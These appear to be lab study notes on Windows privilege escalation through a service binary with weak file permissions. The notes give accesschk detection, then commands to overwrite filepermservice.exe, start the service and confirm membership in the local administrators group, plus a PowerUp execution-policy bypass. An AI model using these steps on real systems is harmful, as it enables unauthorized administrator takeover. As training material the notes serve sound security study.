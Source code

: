 ### Detection

#### Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

### Exploitation

#### Windows VM

1. Open command prompt and type: `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
2. In command prompt type: `sc start filepermsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators



NOTE - if you can get powerup on the system

in command (within the location of powerup)
```
powershell -ep bypass

..\Powerup.ps1

Invoke--AllChecks
```

Think winpeas

